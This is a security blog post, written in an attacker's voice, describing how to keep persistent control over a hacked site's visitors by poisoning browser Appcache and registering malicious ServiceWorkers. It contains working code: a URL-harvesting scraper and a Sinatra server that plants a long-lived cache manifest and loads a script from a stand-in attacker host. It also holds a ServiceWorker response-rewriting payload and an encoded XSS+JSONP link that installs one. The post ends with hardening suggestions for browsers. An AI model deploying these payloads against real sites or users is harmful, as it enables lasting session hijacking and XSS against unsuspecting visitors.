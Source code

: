 ```yaml
---
layout: post
title:  "Using Appcache and ServiceWorker for Evil"
author: "Egor Homakov (<a href='https://twitter.com/homakov'>@homakov</a>)"
---
```


You're a bad guy and you just hacked a website. Normally you leak the database and leave. The owner fixes everything next day and removes your backdoor. With Middlekit techniques you can poison browser cache of every visitor and get more money and intelligence in a long run. 

They call it "Advanced Persistent Threat" in the cyber snake oil industry. It silently sits in the victim's user agent and waits for your commands. It can alter responses, proxy requests through your server etc - it is permanent session hijacking and XSS.

<img src="/img/mk.png">

I am not going to give you specific software, but will explain two approaches: appcache and serviceworker.

## <a href="https://www.html5rocks.com/en/tutorials/appcache/beginner/">Appcache</a> 

It works <a href="https://caniuse.com/#search=appcache">in all browsers</a>. You just need to add manifest itself in the CACHE MANIFEST section and <strong>the browser will always return poisoned documents from the cache</strong>. 

* You need to collect as many URLs as possible - you need to list them explicitly to make the user agent cache it. site:victim.com in google is a good start

{%highlight ruby%}
require 'open-uri'
f=open('https://www.google.ru/search?q=site%3Asakurity.com&oq=site%3Asakurity.com&aqs=chrome..69i57j69i58.2444j0j9&sourceid=chrome&es_sm=91&ie=UTF-8').read

def get_pages(domain)
  f=open('https://www.google.ru/search?q=site%3A'+domain+'&oq=site%3Asakurity.com&aqs=chrome..69i57j69i58.2444j0j9&sourceid=chrome&es_sm=91&ie=UTF-8&start=10&num=100&').read
  r = f.scan /http:\/\/#{domain}(.*?)[&%]/im
  puts r.flatten.uniq.join(' ')
end
get_pages 'sakurity.com'
{%endhighlight%}

* Don't forget user specific URLs such as "/settings" or "/homakov/direct_messages". You can generate the manifest on the fly.

* Insert your middlekit in front of the hacked production server. For demonstration you can run following script locally and add `127.0.0.1 sakurity.com` to your `/etc/hosts`. <strong>It also works in MitM attacks over wifi against https:// websites.</strong>

{%highlight ruby%}
require 'sinatra'

wire = lambda do
  if params[:utm_medium]
    r=  "real content"
  else
    r=<<HTML
<html manifest='/a.appcache'>
<script src="https://evil.com.site/middlekit.js"></script>
<script>
function load(url){
x=new XMLHttpRequest;
x.open('get',url);

x.setRequestHeader('Accept','text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8');
x.setRequestHeader('Cache-Control','max-age=0');
x.setRequestHeader('Upgrade-Insecure-Requests','1');
x.send();

x.onreadystatechange=function(){
  if(x.readyState==4){
    document.write(x.responseText);
    //document.body.parentElement.innerHTML = x.responseText;
  }
}
}
if(location.href.indexOf("?") != -1){

  var u = location.href + "&utm_medium=1";
}else{
  var u = location.href + "?utm_medium=1";
}
//history.pushState("","",url);
console.log("Infected")
load(u);
</script>
</html>
HTML
  end
  r
end

pages = %w{/ /reconnect /lengthextension /logindemo /peatio.pdf /stealtitle /blog/2015/03/15/authy_bypass.html /blog/2015/03/03/duo_format_injection.html /blog/2015/07/28/appcache.html /blog/2015/03/10/Profilejacking.html /blog/2015/06/04/mongo_ruby_regexp.html /blog/2015/05/08/pusher.html /blog/2015/03/04/hybrid_api_auth.html /blog/2015/03/27/slack_or_reset_token_hashing.html /blog/2015/07/18/2fa.html /blog/2015/05/21/starbucks.html /blog/2015/03/05/RECONNECT.html /blog/2014/01/01/puzzle1.html /blog/2015/04/10/email_password_manager.html /blog/2015/02/28/openuri.html /blog/2015/06/25/puzzle2.html /blog/2015/01/22/peatio-audit.html /blog/2015/01/10/hacking-bitcoin-exchanger.html /triple}
pages.each{|page|
  get page, &wire
}

get '/a.appcache' do
  response.headers['cache-control'] = 'max-age=3155760000'
  response.headers['content-type'] = 'text/cache-manifest; charset=UTF-8'
"CACHE MANIFEST
/a.appcache
#{pages.join("\n")}
"
end
{%endhighlight%}

* Get as many users as possible to visit the hacked server right now - try a newsletter. 

* Now all of them load your middlekit.html first, and there is no way to destroy appcache with javascript. The admins have to ask every user to visit chrome://appcache-internals/ manually

## <a href="https://www.html5rocks.com/en/tutorials/service-worker/introduction/">ServiceWorker</a>

This one works only in Chrome on desktop and only over https: websites, but is actually much more dangerous. It creates a worker which alters responses for all requests and there's no need to explicitly cache every page - you can cover entire domain with one worker.

{%highlight ruby%}
onfetch=function(e){
  e.respondWith(new Response('<script>alert(document.domain)</script>',{headers: {'Content-Type':'text/html'}}))
}
{%endhighlight%}

To install a ServiceWorker the browser wants to see it as a response with `content-type:text/javascript`. Pinky, are you pondering what I'm pondering? 

Lots of JSONP endpoints respond with arbitrary JS. For instance <a href="https://gist.github.com/homakov/0ff5711729a14fb50b3f">look at my challenge</a>, this is <a href="https://clientsit.herokuapp.com/xss?user=%3Cscript%3E%0Anavigator.serviceWorker.register(%22%2Fjsonp%3Fcallback%3Donfetch%253Dfunction(e)%257B%250Ae.respondWith(new%2520Response(%27%253Cscript%253Ealert(document.domain)%253C%252Fscript%253E%27%252C%257Bheaders%253A%2520%257B%27Content-Type%27%253A%27text%252Fhtml%27%257D%257D))%250A%257D%252F%252F%22).then(function(registration)%20%7B%0A%20%20console.log(%27ServiceWorker%20registration%20successful%20with%20scope%3A%20%27%2C%20%20%20%20registration.scope)%3B%0A%7D).catch(function(err)%20%7B%0A%20%20console.log(%27ServiceWorker%20registration%20failed%3A%20%27%2C%20err)%3B%0A%7D)%3B%0A%3C%2Fscript%3E">the answer</a>.

In other words <strong>XSS + JSONP + ServiceWorker = Permanent XSS on every page</strong>

## Recap

Appcache is too late to fix, and it's going to be perfect cache poisoning tool for a long while for both hacked websites and insecure connections (yet another reason to avoid https:// when you're on someone's wifi).

ServiceWorker is very young and powerful technology, and should be implemented more carefully, taking into account how common JSONP endpoints are. I believe it was a bad idea to allow any text/javascript responses to become a ServiceWorker. At least it should be an extra header `Service-Worker:true` or explicit `Content-Type:text/javascript-serviceworker`.


